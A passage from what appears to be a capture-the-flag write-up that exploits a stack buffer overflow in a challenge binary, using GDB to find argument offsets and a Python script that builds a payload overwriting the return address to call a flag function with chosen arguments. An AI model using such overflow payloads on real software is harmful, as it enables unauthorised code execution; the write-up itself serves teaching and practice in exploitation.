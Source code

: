 The two `cmp` instructions take the memory addresses `ebp+0x8` and `ebp+0xc` as
arguments. We can calculate what these addresses are using GDB:

```shell-session
(gdb) break *0x08049246
Breakpoint 1 at 0x8049246
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: vuln < payload.bin
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�

Breakpoint 1, 0x08049246 in flag ()
(gdb) i r ebp
ebp            0xffffcddc          0xffffcddc
(gdb) p/x $ebp+0x8
$1 = 0xffffcde4
(gdb) p/x $ebp+0xc
$2 = 0xffffcde8
(gdb)
```

Our payload starts at address `0xffffcd20`, so these memory addresses suggest we
should include the bytes `0xdeadbeef` 196 bytes from the start of our payload
and `0xc0ded00d` in the four bytes immediately after. With this info in hand, we
can return to Python to construct our new payload:

```python
payload = (
    b"A" * 188 +
    b"\xe2\x91\x04\x08" +
    b"A" * 4 +
    b"\xef\xbe\xad\xde" +
    b"\x0d\xd0\xde\xc0"
)
with open("payload.bin", "wb") as f:
    f.write(payload)
```

Let's try this payload again...

```shell-session
(gdb) run < payload.bin
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: vuln < payload.bin
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�

Breakpoint 1, 0x08049246 in flag ()
(gdb) c
Continuing.
foobarbaz

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```
